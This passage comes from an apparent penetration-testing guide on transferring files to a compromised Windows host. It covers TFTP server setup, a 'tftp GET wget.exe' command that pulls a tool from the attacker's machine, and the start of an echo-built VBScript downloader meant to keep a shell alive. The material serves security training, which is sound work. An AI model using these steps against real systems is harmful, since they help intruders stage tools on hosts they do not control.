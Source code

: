 Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:

**Windows XP**

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
```